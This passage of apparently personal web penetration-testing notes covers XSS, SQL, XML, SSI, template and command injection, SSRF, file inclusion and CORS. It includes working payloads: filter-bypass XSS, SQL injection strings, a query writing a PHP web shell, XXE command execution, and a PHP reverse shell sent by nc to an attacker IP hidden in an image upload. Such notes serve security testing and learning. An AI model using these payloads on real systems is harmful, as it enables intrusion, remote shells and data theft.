<input type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" /> <!-- Adding " onfocus="alert(1)" autofocus=" after value -->
```

Note that for instance a dropdown menu can also be vulnerable, as showed below




- Analyse within Burp to see if there are any requests

There are also HTML DOM Events we can abuse such as the following:

- **onmouseover**: Execute a JavaScript when moving the mouse pointer onto an image
- **onfocus**: Execute a JavaScript when an input field gets focus

```html

<input type="text" onfocus="alert(1)">
```

There is an high chance that it there a control to avoid basic XSS, here are some bypass techniques:

```html
<!-- Different Syntax or Encoding -->
"><script >alert(document.cookie)</script >
```

```html
<!-- Bypassing Non-Recursive Filtering -->
<scr<script>ipt>alert(document.cookie)</script>
```

Here below are some automated tools to find XSS

- [XSScrapy](https://github.com/DanMcInerney/xsscrapy) is an XSS/SQLi spider
- [XXXsniper](https://github.com/gbrindisi/xsssniper) is an XSS discovery tool with mass scanning functionalities
- [XSSer](https://github.com/epsylon/xsser) is an automatic -framework- to detect, exploit and report XSS vulnerabilities in web-based applications.
- [XSSHunter](https://xsshunter.com/) allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS.

```bash
# XXScrapy
# Give it a URL and it'll test every link it finds for cross-site scripting and some SQL injection vulnerabilities.
./xsscrapy.py -u http://victim.com

# XSSsniper
# Scanning a single url with GET params
./xsssniper.py -u "http://victim.com/index.php?page=test"
# Scanning a single url with POST params
./xsssniper.py -u "http://victim.com/index.php" --post --data=POST_DATA
# Mass scan an entire website (form included)
./xsssniper.py -u "http://victim.com" --crawl --forms
```

For XSSHunter, you need to sign up on [this page](https://xsshunter.com/signup) whre you will get a subdomain.

Once it is done, we can then use this subdomain in your XSS testing, using injection attempts such as **">\<script src=//our.xss.ht>\</script>**.

XSS Hunter will automatically serve up XSS probes and collect the resulting information when they fire.

As XSS depeonds on code features, HTML tags, applications types, ... you may need to use Polygot.
An XSS polyglot can be generally defined as any XSS vector that is executable within various injection contexts in its raw form.

Here is an example from [0xsobky](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

- **jaVasCript:**: A label in ECMAScript; a URI scheme otherwise.
- **/*-/*\`/*\\`/*'/*"/\*\**/**: A multi-line comment in ECMAScript; a literal-breaker sequence.
- **(/* */oNcliCk=alert() )**: A tangled execution zone wrapped in invoking parenthesis!
- **//%0D%0A%0d%0a//**: A single-line comment in ECMAScript; a double-CRLF in HTTP response headers.
- **</stYle/</titLe/</teXtarEa/</scRipt/--!>**: A sneaky HTML-tag-breaker sequence.
- **\x3csVg/<sVg/oNloAd=alert()//>\x3e**: An innocuous svg element.

If you encounter Node.js applications, you will need to understand the *Template Engine*.
Some of them, like showed below, can perform escaped string interpolation in order to prevent XSS.

|Template Engine | Encode output | Allow raw output (no encoding) |
|-|-|-|
|EJS|<%= text goes here %>|<%- text goes here %>|
|Mustache and Handlebars|{{ text goes here }}|{{{ text goes here }}}|
|Pug|#{ text goes here }|!{ text goes here }|

- Pug: search for !{ , #{, or `${

Here are some XSS payloads example : <http://www.xss-payloads.com/payloads-list.html?a#category=all>

:white_check_mark: How to protect against or detect that technique:

- *Passive Security*: Implement a *Web Application Firewall (WAF)* which analyse 
- *Passive Security*: Implement a *Static Application Security Testing (SAST)* which analyse your source code for potential XSS

###### BeEF

Browser Exploitation Framework (BeEF).

The goal when using BeEF is that we have to trick a victim into loading and running BeEF's malicious **hook.js** script,

./beef

browse to <http://192.168.20.9:3000/ui/panel>
*The default credentials for BeEF are beef:beef*

Some interesting commands are:

- Get Clipboard
- ...

References:

- [WSTG-INPV-01 - Testing for Reflected Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/06-Identify_Application_Entry_Points.html)
- [WSTG-INFO-07 - Map Execution Paths Through Application](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/07-Map_Execution_Paths_Through_Application.html)

##### Testing for SQI Injection

A SQL Injection (SQLi) attack exploit the injection of SQL commands into the SQL queries of a web application.

###### Some basics

- Stacked queries: Allows you to stack multiple queries together within a statement.
  This should be disabled but
  Within most databases, it's turned off by default, but some DBA turn it off again because the application has not been designed to avoid the use of stacked queries 
  If it's turned of you can still you the UNION statement

- Enumerate through ORDER BY.
  **ORDER BY 1** means sort by values of the first column from the result set.
  If **ORDER BY 6** throw an error message, it means that there are only 5 columns.

- Special Characters:

|Character|Purpose|
|-|-|
|;|Terminates the SQL statement|
|' "|String delimiter|
|-- # /*|Comment delimiters|
|% *|Wildcard characters|
|\|\| + " "| String concatenation characters|
| + < > + | Arithmetic operator|
|=|Evaluation test
|()| Calling functions, subqueries, INSERT statements|
|%00|Null byte|

###### In-Band SQL injections

*In-band SQL injections** leverage the same channel used to inject the SQL code (i.e. the pages generated by the web application).

During and in-band attack the penetration tester finds a way to ask the the web application for the desired information.

Try the following payloads:

- **'**,**"**: This can cause syntax error
  We enter **Thomas'**

  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Thomas'';
  ```

  In order to avoid that, we leverage the *SQLi Balacing Act* together with a *Binary Interference*
  We enter **Thomas' OR '1'='1**
  
  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Thomas' OR '1'='1';
  ```

  We try to do *String injections*
  We enter **Tho'/\**/'mas**

  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Tho'/**/'mas' OR '1'='1';
  ```

- **';#**,**';--**,**;%00**,**`** : Closes the string and closes the SQL statement and comment the rest of it
  We enter **Thomas'; --**

  ```sql
  SELECT Username 
  FROM Account 
  WHERE Username = 'Thomas'; --';
  ```

As you can see, **--** and **#** can be really be helpfull as they don't need to be delimited such as **\'\/\*** **\*/'**

- **'*'**:
  -> Mean
- **'^'**:
  -> Mean regular expression ?
- **'&'**:

2) Leveraging UNION and NULL

- UNION: Column types needs to be compatible
- NULL: Matches any types of data
  -> SELECT ..... **' UNION SELECT NULL, NULL, NULL, ...**

> / / / To Finish

###### Out of Band SQL injections

> / / / To Finish

The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

- Using HTTP
  - Oracle : <http://www.victom.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT> user FROM DUAL)--
  - MySQL: Not found
  
###### Error-Based SQL injections

During an **Error-Based SQL injection** attack, the penetration tester tries to force the DMBS to output an **error message** and then uses that information to perform data exfiltration.
To exploit an error-based injection, we need to use advanced DBMS features.

- **unrecognized token**:SQLite

###### Blind SQL injection

A web application vulnerable to **blind SQL injection** does not reflect the results of the injection on the output. In this case the penetration tester must find an **inference** method to exploit the vulnerability.

1) Content-based

Content-based SQL Injection or boolean-based SQL Injection is an inferential SQL Injection technique that relies on sending an SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.

You may need to use the following parameter in SQLmap
--string

Here below is an example of secret enumeration

```sql
AND CASE WHEN(
  (SELECT secret FROM users LIMIT 0,1) LIKE 'a%') THEN 1
  ELSE 0 END AND
```

Here are some functions common among most databases leverage a boolean-based SQL-Injection:

- SUBSTRING (text, start, length): returns a substring starting from the position “start” of text and of length “length”. If “start” is greater than the length of text, the function returns a null value.
- ASCII (char): it gives back ASCII value of the input character. A null value is returned if char is 0.
  > $Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1
- LENGTH (text): it gives back the number of characters in the input text.
  > $Id=1' AND LENGTH(username)=N AND '1' = '1

2) Time-based

This type of blind SQL injection relies on the database pausing for a specified amount of time, then returning the results, indicating successful SQL query executing.

|MySQL|MSSQL|Oracle|PosgreSQL|
|-|-|-|-|
|SLEEP()|WAITFOR DELAY|BEGIN<br>DBMS_LOCK.SLEEP()|pg_sleep()|
|BENCHMARK()|WAITFOR TIME|UTL_HTTP.REQUEST()|-|
|-|-|UTL_INADDR.get_host_address()|-|
|-|-|UTL_INADDR.get_host_name()|-|

Some notes, if you don't have a lot of SQL skills

- A UNION statement implies DISTINCT by default. You can prevent that by using the ALL operator.

<https://websec.ca/kb/sql_injection>

###### Fingerprinting

- **Default Databases**

  - *MySQL*
    - mysql: System database that contains tables that store information required by the MySQL server
    - information_schema: Feature for monitoring MySQL Server execution at a low level

  - *MSSQL*
    - master: Records all the system-level information for an instance of SQL Server.
    - model: Used as the template for all databases created on the instance of SQL Server.
    - msdb: Used by SQL Server Agent for scheduling alerts and jobs.
    - tempdb: Is a workspace for holding temporary objects or intermediate result sets.

  - *Oracle*:
    - SYSTEM:
    - SYSAUX:

- **Comment**

  - *MySQL*: #, /* , -- -, ;%00, `
  - *MSSQL*: /*, --, ;%00
  - *Oracle*: --

- **Version**

  - *MySQL*: VERSION(), @@VERSION, @@GLOBAL.VERSION
  - *MSSQL*: @@VERSION
  - *Oracle*

  ```sql
  SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
  ```

- **Database Credentials**
  
  - *MySQL*:
    - Table: mysql.user
    - Columns: user, password
  - *MSSQL*:
    - Table: master..syslogins, master..sysprocesses
    - Columns: name, loginame
  - *MSSQL*:
    - Table: all_users
    - Columns: name, password

- **Functions**
  
  - *MySQL*:
    - Reading Files:

    ```sql
    SELECT LOAD_FILE('/etc/passwd');
    ```

    - Writing Files: INTO OUTFILE/DUMPFILE

    ```sql
    SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'
    ```

    And then access <http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt>

- **OOB**

  - *MySQL*:
    - SMB:

    ```sql
    ' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt
    ```

##### Tools

1) SQLmap

[sqlmap](http://sqlmap.org/) is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

```bash
python sqlmap.py -u 'http://victil.com/page.php?id=5'
```

- **-u**: Target URL
- **-r**: Load HTTP request from a file
  &rarr;
- **--crawl**: Crawl the website starting from the target URL
- **--forms**: Parse and test forms on target URL
- **--dbms**: Specify the database behind

Bypassing commands:

- **--referer**:  Bypass technique
- **--random-agent**: Use randomly selected HTTP User-Agent header value

Detection commands:

- **--risk**: Risk of tests to perform (1-3, default 1)
  - **1**: Default
  - **2**: Adds heavy query time-based SQL injections
  - **3**: Adds OR-based SQL injection tests.
- **--level**: Level of tests to perform (1-5, default 1)
  - **1**: Limited number of tests (requests) are performed
  - **2**: HTTP Cookie header values are tested
  - **3**: HTTP User-Agent/Referer headers are tested
  - **4**:
  - **5**:

2) BBQSQL

[BBQSQL](https://github.com/CiscoCXSecurity/bbqsql) is a blind SQL injection framework written in Python.
It is extremely useful when attacking tricky SQL injection vulnerabilities.

BBQSQL can perform two types of Blind SQL Injection:

- Binary search (Default): It works by splitting the expected character.
  &rarr; If it return **TRUE**, the first character is "bigger" than m
  &rarr; If it return **FALSE**, the first character is "smaller" than m
- Frequency search: Perform a frequency analysis bases of letters occuring in English text

3) w3af

w3af is an open source web application security scanner which helps developers and penetration testers identify and exploit vulnerabilities in their web applications.

The framework has three main plugins types

- **crawl**: Find new URLs, forms, and other injection points,
- **audit**: Take the injection points found by crawl plugins and send specially crafted data to all in order to identify vulnerabilities.
- **attack**: Try to exploit vulnerabilities found by audit plugins.

```bash
./w3af_console
w3af>>> plugins
w3af/plugins>>> crawl spider_man # Used when Javascript, Flash, Java applets or any other browser side technology is present.
w3af/plugins>>> list audit
w3af/plugins>>> list crawl
w3af>>> target
w3af/config:target>>> set target http://victim.com/
w3af/config:target>>> back
w3af>>> start
```

There is also a GUI that you can use

```bash
./w3af_gui
```

*Note that the GUI has different third party dependencies and might require you to install extra OS and python packages.*

4) Through Oneliner

- [qsreplace](https://github.com/tomnomnom/qsreplace) is a Go script that:
  - 1. Accept URLs on stdin
  - 2. Replace all query string values with a user-supplied value
  - 3. Only output each combination of query string parameters once per host and path
- [httpx](https://github.com/projectdiscovery/httpx) is a fast and multi-purpose HTTP toolkit allow to run multiple probers using retryablehttp library, it is designed to maintain the result reliability with increased threads.

```bash
# Search SQL Injection using qsreplace search syntax error
grep "="  .txt| qsreplace "' OR '1" | httpx -silent -srd result -threads 100 | grep -q -rn "syntax\|mysql" result 2>/dev/null && \printf "TARGET \033[0;32mCould Be Exploitable\e[m\n" || printf "TARGET \033[0;31mNot Vulnerable\e[m\n"
```

##### Testing for XML Injection

###### Discovery

- **Single quote** (**'**): When not sanitized, this character could throw an exception during XML parsing

```xml
/* The following attribute */
<node attrib='$inputValue'/>
/* Becomes */
<node attrib='foo''/>
```

- **Double quote** (**"**): Same as *Single quote*
- **Angular parentheses** (**>** and **<**):

```xml
<user>
    <username>foo<</username>
```

- **Comment tag** (\<!--\ /-->): Interpreted as the beginning/end of a comment

```xml
<user>
    <username>foo<!--</username>
```

- ...

###### Tag Injection

1) Through comment

```text
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com
```

Becomes

```xml
<user>
    <username>tony</username>
    <password>Un6R34kb!e</password><!--</password>
    <userid>500</userid>
    <mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
</user>
```

###### XXE

XXE is an example of Server-Side Request Forgery (SSRF) where we define a external entity using an XML Data Type Definition

For instance, here below, the *Entity* "xxe" will show "Bouh"

```xml
<!DOCTYPE thomas[
<!ELEMENT thomas ANY >
<!ENTITY xxe "Bouh" >]>
<user>
  <username>&xxe;</username>
</user>
```

If we change the "Bouh" by **<!ENTITY xxe "Bouh" >]>** by **<!ENTITY xxe SYSTEM "file:///etc/host >]>**, it will perform a Local File Include by calling the system to display the content of /etc/host

Something to know is the "expect" module that requires old version of PHP.
It allows to run command on the system.
For instance *<!ENTITY xxe SYSTEM "expect://whoami" >]>

###### XInclude

[XInclude](https://en.wikipedia.org/wiki/XInclude) is a generic mechanism for merging XML documents, by writing inclusion tags in the "main" document to automatically include other documents or parts thereof.

For instance we have a text file "license.txt" which is the following
> This document is published under GNU Free Documentation License

And then the following XHTML

```xhtml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p><xi:include href="license.txt" parse="text"/></p>
   </body>
</html>
```

It becomes

```xhtml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p>This document is published under GNU Free Documentation License</p>
   </body>
</html>
```

So to perform an **XInclude attack**, we need to inject the XInclude reference and provide the path to the file we want to include

```xhtml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

###### XXE through SVG (File Upload)

SVG files use **XML**, which is a good match for XXE.
By the way, the MIME type for SVG is *data:image/svg+xml*

This is usually done through **XLink** which is an XML markup language and W3C specification that provides methods for creating internal and external links within XML documents, and associating metadata with those links,

```xhtml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

###### *If you don't know, now you know: [XML](https://en.wikipedia.org/wiki/XML)*

XML is used instead of HTML in some cases when data need to be sent from one application to another application as the main goal is to be used as *middleware*

XML entities are a way of representing an item of data within an XML document, instead of using the data itself.
Entities can be seen as function that can:

- Display text
- Display a local file
- Display a remote file

With XML, we have the **Document Type Definition** which defines the structure of an XML document.

The Document Type Definition can be either:

- Self-contained within the XML document (Internal DTD)
- Loaded from elsewhere (External DTD).

The Document Type Definition is declared within the **DOCTYPE** element

XML Injection testing is when a tester tries to inject an XML doc to the application.

##### Testing for SSI Injection

Server-Side Includes enables developers the ability to add small pieces of dynamic code inside static HTML pages

As a simple programming language, SSI supports only one type which is **text**.

SSI has a simple syntax:
> \<!--#directive parameter=value parameter=value -->.

Directives are placed in HTML comments so that if SSI is not enabled, users will not see the SSI directives on the page, unless they look at its source.

The server searches for the SSI directives in the HTML code and executes them sequentially.
After executing all the directives, the HTML is finally served at the requestor.

Here are some common example

```html
<! — #include virtual=“/footer.html” →
<! — #echo var=“DATE_LOCAL” →
```

Here are some directive to look for:

- **exec**:
- **echo**:

If we can manipulates them, we could either perform RCE our LFI

The SSI directives can also be injected in the HTTP headers, if the web application is using that data to build a dynamically generated page:

```txt
Referer: <!--#exec cmd="/bin/ps ax"-->
User-Agent: <!--#include virtual="/proc/version"-->
```

SSI-Injection-Jhaddix.txt

Reference: [WSTG-INPV-08 - Testing for SSI Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection.html)

##### Testing for XPath Injection

> / / To Finish

XML can be used to store data. This data stored in XML can be queried via **XPath**

```xml
<users>
 <user>
   <name>thomas</name>
   <username>thomas</username>
   <password>password123</password>
   <admin>1</admin>
 </user>
</users>
```

By responding the following to the form, it's gonna perform an XPATH injection

username: thomas **" or "1" ="1**
password: secret

Here below is how the query looks like:

/user[username="thomas **" or "1"="1"** and password="secret"]
&rarr; username ="thomas" or [**TRUE** and **FALSE**]
&rarr; username ="thomas" or FALSE

If we don't have the user name, just do **" or "1" ="1" or "1" ="1**

It is possible to detect the number of nodes, identifying the data in the XML document using various XPath sub functions

```xpath
# Returns the number of nodes:
count(//user/child::node()
```

##### Testing for IMAP SMTP Injection

###### *If you don't know, now you know: [SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)*

SSRF (Server-Side Request Forgery) is a type of vulnerability that allows an attacker to force an application to issue requests on behalf of the attacker, to unintended resources.



<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin>

Source: <https://www.shorebreaksecurity.com/blog/ssrfs-up-real-world-server-side-request-forgery-ssrf/>

##### Testing for Code Injection

###### Testing for Local File Inclusion

Local file inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application.

.php?file=../../../../etc/passwd
.php?file=../../../../etc/hosts

/usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt

Reference: [WSTG-INPV-11 - Testing for Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11-Testing_for_Code_Injection.html)

###### Testing for Remote File Inclusion

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application.

.php?file=http://attacker_site/malicous_page

Reference: [WSTG-INPV-11 - Testing for Remote File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html)

###### *If you don't know, now you know: [Document Object Model]()*

Document Object Model is a cross-platform and language-independent interface that treats an XML or HTML document as a tree structure wherein each node is an object representing a part of the document.
Every item of the tree is called a node and nodes have parent/child relationships.

This allows us to manipulate what is in our HTML or XML documents with JavaScript.

In order to use JavaScript against the DOM we need to use the **document** object and its methods.

Document is an object type, so it has methods and variables:

- Method **write()**
- Method **referrer()**
- Variable **cookie**

###### *If you don't know, now you know: [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)*

Same Origin Policy allow us to use javascript from another site.
That's the reason it is called a cross-site scripting

We will run in the context of 

For instance, being able to inject the following in a page is not a cross-site scripting, is not **really** cross-site scripting, has the goal is of this attack is not

```html
<script>alert(42);</script>
```

The goal of a cross-site scripting 

injected into otherwise benign and trusted websites

##### Testing for Command Injection

OS command injection is a technique used via a web interface in order to execute OS commands on a web server.

There are different types of command injection:

- Blind OS command injection:
  - Time delays: ?parameter=x||ping+-c+10+127.0.0.1||
  - Redirecting output (Retreive the file after on your browser): ?parameter=||whoami>/var/www/images/output.txt||
  - OOB (Out Of Band) Exploitation: ?parameter=x||nslookup+burp.collaborator.address||

###### Discovery

- **cmd1|cmd2**: Uses of **|** will make command 2 to be executed weather command 1 execution is successful or not.
- **cmd1;cmd2**: Uses of **;** will make command 2 to be executed weather command 1 execution is successful or not.
- **cmd1||cmd2** : Command 2 will only be executed if command 1 execution fails.
- **cmd1&&cmd2** : Command 2 will only be executed if command 1 execution succeeds.
- **$(cmd)** : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
- **cmd** : It’s used to execute specific command. For example, whoami
- **0x0a**: End of line character in hexadecimal
- **\n**

[Commix](https://github.com/commixproject/commix) is a tool used to find bugs, errors or vulnerabilities related to command injection attacks.

```bash
python commix.py --url="http://victim.com/#
```

##### Testing for Format String Injection

A format string is a **null-terminated character sequence** that also contains conversion specifiers interpreted or converted at runtime.

If server-side code concatenates a user's input with a format string, an attacker we can add additional conversion specifiers to cause a runtime error, information disclosure, or buffer overflow.

For instance:

- **%s**: Mostly used to represend a string (R, C, Python)
- **%d**: Mostly used to represent number

The goal is to see an unexe

Fuzzing/FormatString-Jhaddix.txt

##### Testing for HTTP Splitting Smuggling

Within HTTP smuggling, an attacker exploits the fact that some specially crafted HTTP messages can be parsed and interpreted in different ways depending on the agent that receives them.

[HRS Detection](https://github.com/anshumanpattnaik/http-request-smuggling) is a tool written in python in order to test HTTP request smuggling vulnerabilities

```bash
python3 smuggle.py -u URL
```

<https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn>

##### Testing for Host Header Injection

A web server commonly hosts several web applications on the same IP address, referring to each application via the virtual host. In an incoming HTTP request, web servers often dispatch the request to the target virtual host based on the value supplied in the Host header.

##### Testing for Server-side Template Injection

Web applications commonly use server-side templating technologies to generate dynamic HTML responses.
Server-side Template Injection vulnerabilities (SSTI) occur when user input is embedded in a template in an unsafe manner and results in remote code execution on the server.

Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

Some of the most popular template engines can be listed as the followings:

- **PHP**: Smarty, Twigs
- **Java**: Velocity, Freemaker
- **Python**: JINJA, Mako, Tornado
- **JavaScript**: **Jade, Rage
- **Ruby**: Liquid

###### Detection

[Tplmap](https://github.com/epinna/tplmap) assists the exploitation of Code Injection and Server-Side Template Injection vulnerabilities with a number of sandbox escape techniques to get access to the underlying operating system.

```bash
./tplmap.py -u 'http://www.victim.com/page?name=thomas'
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Sanitize user input before passing it into the templates to minimize vulnerabilities from any malicious.
- *Architecture*: Ensure you use the various security mechanisms proposed by the template engines

Reference: [WSTG-INPV-18 - Testing for Server-side Template Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection.html)

##### Testing for Server-Side Request Forgery

SSRF is an attack vector that abuses an application to interact with the internal/external network or the machine itself.


The most common methods to detect SSRF are local and remote file inclusion.

```bash
GET https://example.com/page?page=https://malicioussite.com/shell.php
GET https://example.com/page?page=http://127.0.0.1/admin
GET https://example.com/page?page=file:///etc/passwd
```

[SSRFmap](https://github.com/swisskyrepo/SSRFmap) is intended to become the SQLmap of the SSRF vulnerability. It allows you to exploit the vulnerable parameters of a request in a very simple and efficient way.

```bash
python3 ssrfmap.py -r REQFILE -m MODULES
```

:white_check_mark: How to protect against or detect that technique:

- Perform "Input validation" to ensure only properly formed data is entering the workflow in an information system, preventing malformed data from persisting in the database and triggering malfunction of various downstream components. (cc [Server-Side Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html))

Reference: [WSTG-INPV-19 - Testing for Server-Side Request Forgery](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)

##### Testing for Cross Frame Scripting

Cross-frame scripting (XFS) is an attack technique that uses malicious JavaScript to access user data from a legitimate third-party page loaded into an HTML iframe.

XFS attacks exploit specific browser bugs.

Under normal circumstances, cross-frame scripting should not be possible because of same-origin policy scripts shouldn’t have access to pages loaded from different servers, including access to their events.
However, specific browser bugs might make it possible for a parent frame to access a child frame loaded from a different origin.

A successful XFS attack requires all of the following to be true:

- The user receives and opens a malicious URL.
- The user’s browser has a buggy implementation of same-origin policy.
- The legitimate website that lures the user allows itself to be embedded in an iframe.

:white_check_mark: How to protect against or detect that technique:

- *Achitecture*: Implement the "X-Frame-Options" HTTP Security Header
- *Achitecture*: Implement the "Content Security Policy" HTTP Security Header with the **frame-ancestors** directive

#### Client-side Testing

#### Testing for DOM-Based Cross Site Scripting

> / / / To Finish

DOM-based cross-site scripting is the de-facto name for XSS bugs that are the result of active browser-side content on a page, typically JavaScript, obtaining user input through a source and using it in a sink, leading to the execution of injected code. This document only discusses JavaScript bugs which lead to XSS.

##### Testing Cross Origin Resource Sharing

Cross-origin resource sharing (CORS) is a mechanism that allows restricted resources on a web page to be requested from another domain outside the domain from which the first resource was served.

[CORScanner](https://github.com/chenjj/CORScanner) is a python tool designed to discover CORS misconfigurations vulnerabilities of websites.

```bash
# Check CORS misconfigurations of specific domain
python cors_scan.py -u victim.com
# Check CORS misconfigurations of specific URL
python cors_scan.py -u http://victim.com/test
# Check CORS misconfiguration with specific headers
python cors_scan.py -u victim.com -d "Cookie: test"
```

:white_check_mark: How to protect against or detect that technique:

- *Passive Defense*: After implementing CORS, make sure to test it that it working as intended.
- *Passive Defense*: Audit regurlarly your configuration of CORS.

Reference: [WSTG-CLNT-07 - Testing Cross Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/07-Testing_Cross_Origin_Resource_Sharing.html)

##### Testing WebSockets

> / / / To Finish

WebSockets is a bi-directional, full-duplex communications protocol initiated over HTTP.
They are commonly used in modern web applications for streaming data, Chat applications, and other asynchronous traffic. It is a protocol where the client and server can send the messages simultaneously over the channel.

1. Identify that the application is using WebSockets.
&rarr;Inspect the client-side source code for the ws:// or wss:// URI scheme.
&rarr;Use Google Chrome’s Developer Tools to view the Network WebSocket communication.
&rarr;Use ZAP’s WebSocket tab.
2. Verify the Origin Header Field
In the WebSocket standard, an origin header field is defined which is generally used to differentiate between the connections coming from different hosts and also the connections established between the browser and another network client.
If the Origin header is not verified during the initial WebSocket handshake, the server may accept connections from any origin and this may result in serious security vulnerabilities.

https://www.appknox.com/blog/everything-you-need-to-know-about-web-socket-pentesting

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Verify the Origin header during the initial WebSocket handshake

Reference: [WSTG-CLNT-10 - Testing WebSockets](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/10-Testing_WebSockets.html)

#### Test Number of Times a Function Can Be Used Limits

##### Bypass #1

There is a HTTP header called "X-Forwarded-For" (XFF) which takes an IP address as value .

https://desmond-hume.medium.com/bypassing-ip-based-rate-limit-72c3d081f15b

##### API Testing

[OpenAPI Security Scanner](https://gitlab.com/ngalog-gitlab/openapi_security_scanner/) is created to help to discover authorization security issues with both automation and manual review.

It behaves like an external unit test tool to make sure everything is behaving the way it should be.

#### Is there AJAX

AJAX is a set of web development techniques using many web technologies on the client side to create asynchronous web applications.
For instance, it is able to refresh portions of the page.

SRC Attribute

The XMLHttpRequest object can be used to exchange data with a server behind the scenes.

The AJAX attack surface is larger than usual applications due to:

- The large amounts of client-side code
- The *Business logic* which is client-side

#### JSON Web Token

[jwtXploiter](https://github.com/DontPanicO/jwtXploiter) is a tool to test the security of json web token.

#### XSS

##### Detection

alert()
confirm()
prompt()

##### HTML Injection

> / / / To Finish

<script></script>
SVG

If Same-Origin Policy is enable, it's not a XSS *by design*

##### 

DOM calls along with XMLHttpRequest (XHR) objects are part of the client side logic

http://media.blackhat.com/bh-us-10/whitepapers/Shah/BlackHat-USA-2010-Shah-DOM-Hacks-Shreeraj-wp.pdf

##### File Upload

cp original.png ./shell.php.png
echo '<?php' >> ./shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> ./shell.php.png
echo '?>' >> ./shell.php.png

| File Type | Mnemonic | Signature |
|-|-|-|
|DOS Executable|"MZ"|0x4D 0x5A|
|PE32 Executable|"MZ"...."PE.."|0x4D 0x5A ... 0x50 0x45 0x00 0x00|
|Mach-O Executable (32 bit)|"FEEDFACE"|0xFE 0xED 0xFA 0xCE|
|Mach-O Executable (64 bit)|"FEEDFACF"|0xFE 0xED 0xFA 0xCF|
|ELF Executable|".ELF"|0x7F 0x45 0x4C 0x46|
|Zip Archive|"PK.."|0x50 0x4B 0x03 0x04|
|Rar Archive|"Rar!...."|0x52 0x61 0x72 0x21 0x1A 0x07 0x01 0x00|
|Ogg Container|"OggS"|0x4F 0x67 0x67 0x53|
|Matroska/EBML Container|N/A|0x45 0x1A 0xA3 0xDF|
|PNG Image|".PNG...."|0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A|
|BMP Image|"BM"|0x42 0x4D|
|GIF Image|"GIF87a"|0x47 0x49 0x46 0x38 0x37 0x61|

##### Fuzzing

Fuzzing is a technique where we throughpout various types of security testing.
The result of a fuzzing attacks depends on the:

- The payloads that have been sent
  &rarr; We will use multiple list based on what we are fuzzing
- The result of those payloads
- How we will interpret the result
  &rarr; Usually we search for anomalies based on all requests or errors

For instance on "<http://victim.com/index.php?id>=" we could try:

- A dictionnary attack to try LFI
  &rarr;Fuzzing/LFI/LFI-Jhaddix.txt
- A dictionnary attack to try SQLi
